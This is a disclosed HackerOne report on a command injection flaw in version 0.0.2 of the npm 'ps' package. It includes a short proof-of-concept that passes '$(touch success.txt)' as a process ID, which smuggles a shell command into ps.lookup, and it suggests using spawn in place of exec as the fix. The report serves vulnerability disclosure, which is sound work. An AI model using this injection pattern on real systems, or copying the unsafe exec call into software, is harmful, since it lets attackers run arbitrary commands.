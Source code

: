 # Command Injection is ps Package

## Report Details
- **Report ID**: 390848
- **URL**: https://hackerone.com/reports/390848
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-08-06T10:19:15.354Z
- **Disclosed**: 2018-09-07T06:47:28.954Z

## Reporter
- **Username**: cris_semmle
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a command injection in ps package.
It allows attacker to inject arbitrary OS commands instead of PID numbers.

# Module

**module name:** ps
**version:** 0.0.2
**npm page:** `https://www.npmjs.com/package/ps`

## Module Description

A Node.js module for looking up running processes.

## Module Stats

39 downloads in the last week

# Vulnerability

## Vulnerability Description

The ps package expects a valid PID number, but an attacker can inject arbitrary commands instead.

## Steps To Reproduce:
```js
var ps = require('ps');

ps.lookup({ pid: "$(touch success.txt)" }, function(err, proc) { // this method is vulnerable to command injection
    if (err) {throw err;}
    if (proc) {
        console.log(proc);  // Process name, something like "node" or "bash"
    } else {
        console.log('No such process');
    }
});
```

## Patch

N/A replace exec with spawn

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

If the attacker can control the PID, she can inject arbitrary OS commands.

## Attachments
No attachments
